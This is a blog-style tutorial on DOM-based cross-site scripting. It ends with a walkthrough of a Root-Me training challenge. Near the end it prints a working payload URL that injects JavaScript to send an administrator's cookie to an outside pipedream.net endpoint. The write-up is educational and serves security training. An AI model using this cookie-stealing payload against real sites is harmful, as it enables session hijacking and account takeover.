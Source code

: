 ```yaml
---
title: XSS DOM BASED
description: Explanation of how DOM-Based XSS vulnerabilities work.
date: "2021-09-12T10:00:00+02:00"

---
```



# Introduction

**DOM-based** XSS vulnerabilities usually arise when JavaScript takes data from an attacker-controllable source, such as the URL, and passes it to a sink that supports dynamic code execution, such as eval() or innerHTML. This enables attackers to execute malicious JavaScript, which typically allows them to hijack other users' accounts.

## What is the DOM?
The Document Object Model (DOM) is a convention used to represent and work with objects in an HTML document (as well as in other document types).

All HTML documents have an associated DOM that consists of objects, which represent document properties from the point of view of the browser. When a client-side script is executed, it can use the DOM of the HTML page where the script runs. The script can access various properties of the page and change their values.


To deliver a DOM-based XSS attack, you need to place data into a source so that it is propagated to a sink and causes execution of arbitrary JavaScript.

## Important information :warning:
The most common source for DOM XSS is the URL, which is typically accessed with the window.location object. An attacker can construct a link to send a victim to a vulnerable page with a payload in the query string and fragment portions of the URL.

In certain circumstances, such as when targeting a 404 page or a website running PHP, the payload can also be placed in the path. 

You can find more information about it [here](https://owasp.org/www-community/attacks/DOM_Based_XSS) or [in the portSwigger webpage](https://portswigger.net/web-security/cross-site-scripting/dom-based)

### Hands on! :fire:

In this example, we found ourselves in a challenge from root-me: a cybersec training website.

This challenge greets us with a game. This game requires us to input a number into a form, then it's compared to a random number. If it comes to be the same number, a green message appears, otherwise a red message appears.

We can check this behaviour by entering some random number and check the source with developer tools. For this example I will input the number **"5"**.

![xss dom image1](xssdom1.PNG)

#### Analysis
We can see in the screenshot above that the returned *red* answer, because our number is different than 71.043452......

Another **really** important thing to bear in mind is that our input appears reflected within the `script` tags, that means it's a nice candidate to inject malicious code, let's see if we can put some arbitrary code inside it.

#### Injection test 
Let's try to inject some Javascript `debugger`:
![xss dom image2](xssdom2.PNG)

And we can see that our code has been successfuly injected. 

#### Payload creation and execution 

So now, I'm going to inject a payload to steal the administrator's cookie, there is a report page where we assume the admin will try to answer every request we send him.

My payload is going to send a request to a public endpoint (It was called requestbin, now it's called pipedream, you can use any endpoint you want for sure), and concat the admin's cookie in the query param. Wait for some minutes untill we receive a response....
```
http://challenge01.root-me.org/web-client/ch32/index.php?number=%27;document.location=%22https://enrqxs92mtm1n.x.pipedream.net?cookie=%22.concat(document.cookie);%27
```

Aaand... there it is! 
![xss dom image 3](xssdom3.PNG)

We have captured our :sparkles: flag! :sparkles:

Thank you for your time and see you next time!

:smile: :sunset:
